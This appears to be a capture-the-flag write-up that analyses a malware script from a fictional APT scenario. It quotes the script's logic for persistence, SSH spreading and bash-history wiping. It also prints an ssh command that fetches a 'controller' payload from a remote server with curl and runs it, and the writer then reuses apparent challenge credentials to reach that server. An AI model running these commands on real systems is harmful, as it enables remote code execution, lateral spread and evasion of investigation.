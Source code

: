 ```
                return 0
            else
                return 1
            fi
        fi
    fi
}

# Check required dependencies
check_command "curl"
check_command "unzip"
check_command "aws"

check_role_vuln
if [[ $? -eq 0 ]]; then
        create_shell
else
        create_persistence
        spread_ssh
	cat /dev/null > ~/.bash_history
fi
```

Within the Script, this line is intriguing:
```bash
ssh -oStrictHostKeyChecking=no -oBatchMode=yes -oConnectTimeout=5 -i "$key" "$user@$host" "(curl -u $USERNAME:$PASSWORD -o /dev/shm/controller http://$SERVER/files/controller && bash /dev/shm/controller)"
```
> meaning, we can use this:
> 1. `curl -u $USERNAME:$PASSWORD http://$SERVER/files/controller`
> 2. `curl -u FizzShadows_1:Gx27pQwz92Rk http://34.118.239.100/files/controller`

#1 Try:
<img width="1471" height="70" alt="Clipboard_2025-09-08-07-18-38" src="https://github.com/user-attachments/assets/52e75a38-8ba4-4bfd-b770-5402a08a4882" />

#2 Try: with using only ip address:
<img width="1235" height="969" alt="Clipboard_2025-09-08-07-19-40" src="https://github.com/user-attachments/assets/fea9fc00-2240-4ab8-8d0e-14e5149b984c" />

#3 Try: We can see, we can add these options/endpoints to out url: Trying to list files:
<img width="1310" height="408" alt="Clipboard_2025-09-08-07-22-29" src="https://github.com/user-attachments/assets/efbb451c-70f4-43fb-8c78-db28af765d7d" />

$4. Try: We can see our target, we will delete it, so that APT can't threat **ExfilCola** to release their sensitive information:

<img width="1815" height="93" alt="Clipboard_2025-09-08-07-25-48" src="https://github.com/user-attachments/assets/c6a18b8f-2c02-425e-85df-2d604a5aa273" />

> Nice! we made it ^^
